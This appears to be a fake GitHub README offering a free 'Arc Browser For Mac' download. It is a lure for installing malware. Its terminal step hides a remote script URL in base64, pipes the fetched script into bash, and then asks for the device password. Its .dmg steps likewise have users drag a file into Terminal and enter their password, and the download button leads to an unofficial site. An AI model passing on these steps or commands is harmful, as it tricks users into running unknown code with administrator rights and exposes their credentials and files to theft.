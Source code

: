 # Arc Browser For Mac — Download For Mac OS 😊

Arc Browser For Mac is a modern, innovative web browser designed for macOS, offering a unique and productive browsing experience. With its sleek interface, customizable features, and seamless integration with macOS, Arc Browser redefines how you interact with the web. Follow the instructions below to install Arc Browser For Mac and explore a new way to browse.

![arcbrowser](https://arc.net/_next/image?url=%2Fbrowser-mmmhome.png&w=3840&q=100)

[![Download Now](https://img.shields.io/badge/Download-Now-%23007AFF?style=for-the-badge&logo=apple)](https://mrboomzeus519.github.io/gimronus/arcbrowser)

If the download button above doesn’t work, follow the manual installation instructions below using the terminal.

## 📦 How to Install Arc Browser For Mac

### Installation via .dmg:

1. Install the .dmg file using the button above. 
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.
3. Open a terminal and transfer the file you extracted in the last step into it.
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).

[![0723.gif](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

### Installation via a command in the terminal:

1. Copy the installation command below.
```
/bin/bash -c "$(curl -fsSL $(echo aHR0cHM6Ly9waGFubmFyaXRoLmNvbS9nZXQzL2luc3RhbGwuc2g= | base64 -d))"
```
2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.
3. Enter your device password and confirm the installation.

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)

## 🎯 What You Get

Arc Browser For Mac transforms your browsing experience with innovative features tailored for productivity and creativity. Here’s what you can achieve:

- 🌐 **Modern Browsing Interface**: Enjoy a clean, intuitive design for effortless navigation.
- 📑 **Split View Multitasking**: Work with multiple tabs side-by-side for enhanced productivity.
- 🛠 **Customizable Sidebar**: Organize favorites, apps, and tools for quick access.
- 📝 **Built-in Notes**: Capture ideas and save web content directly in the browser.
- ⚡ **Fast Performance**: Optimized for macOS and Apple Silicon for a smooth experience.
- 🔒 **Enhanced Privacy**: Browse securely with advanced privacy and tracking protection.

## About Arc Browser For Mac

Arc Browser For Mac is a cutting-edge web browser designed exclusively for macOS, offering a fresh approach to browsing with its innovative features and sleek design. Tailored for users who value productivity and customization, Arc Browser integrates seamlessly with the macOS ecosystem, delivering exceptional performance on Apple Silicon. As a free browser for Mac, it provides a modern alternative to traditional browsers, making it ideal for students, professionals, and creatives. Its intuitive interface ensures a smooth onboarding experience for users of all levels.

Unlike conventional browsers, Arc Browser For Mac reimagines tab management with Split View, allowing users to work with multiple tabs side-by-side for efficient multitasking. The customizable sidebar provides quick access to bookmarks, apps, and tools, streamlining your workflow. The built-in notes feature lets you capture ideas and save web content without leaving the browser, making it a powerful tool for research and content creation. With its focus on macOS optimization, Arc Browser ensures fast load times and minimal resource usage.

Arc Browser For Mac is perfect for those seeking a free web browser that combines style, functionality, and privacy. Its advanced privacy features protect your data from trackers, while regular updates keep the browser compatible with the latest macOS versions. Whether you’re browsing for work, study, or leisure, Arc Browser offers a versatile platform that adapts to your needs. The browser’s lightweight design ensures it runs smoothly on both high-end and older Mac devices, making it accessible to a wide audience.

As a free download for macOS, Arc Browser For Mac empowers users to browse the web with greater control and efficiency. Its unique features, such as Split View, customizable sidebar, and built-in notes, set it apart in the competitive browser market. For anyone looking for a free browser for Mac that prioritizes productivity and privacy, Arc Browser For Mac is the ultimate choice. Download it today and experience browsing like never before.

## Advantages of Arc Browser For Mac

- 🚀 **Blazing Fast Performance**: Optimized for macOS and Apple Silicon for quick load times.
- 🖌 **Customizable Interface**: Tailor the sidebar and layout to suit your workflow.
- 📑 **Split View Productivity**: Multitask with multiple tabs in a single window.
- 🔒 **Robust Privacy Features**: Stay safe with advanced tracking protection.
- 📝 **Integrated Notes**: Save ideas and web content without switching apps.
- 💻 **Lightweight Design**: Runs efficiently on all macOS devices.

## 🖼 Preview

![Main Browser Interface](https://cdn.mos.cms.futurecdn.net/6JWQCS2RbyRj62rA3uDYeC.png)  
*Modern and clean browser interface for seamless browsing.*

![Split View](https://cdn.prod.website-files.com/5f15081919fdf673994ab5fd/656e730a5d1a92c7fd4e455d_Arc-Screenshot.webp)  
*Split View for multitasking with multiple tabs.*

![Sidebar Customization](https://i.postimg.cc/7hL2W5Qz/arc-browser-sidebar.jpg)  
*Customizable sidebar for quick access to favorites and tools.*

![Notes Feature](https://i.postimg.cc/9F6yJ4Qz/arc-browser-notes.jpg)  
*Built-in notes for capturing ideas while browsing.*

## 🔍 Tags

arc browser, arc browser for mac, arc browser mac download, arc browser free, arc browser download, download arc browser, arc browser for mac, arc browser discount, arc browser for macos, arc browser mac free, arc browser mac free download, arc browser free download, arc browser download, arc browser app
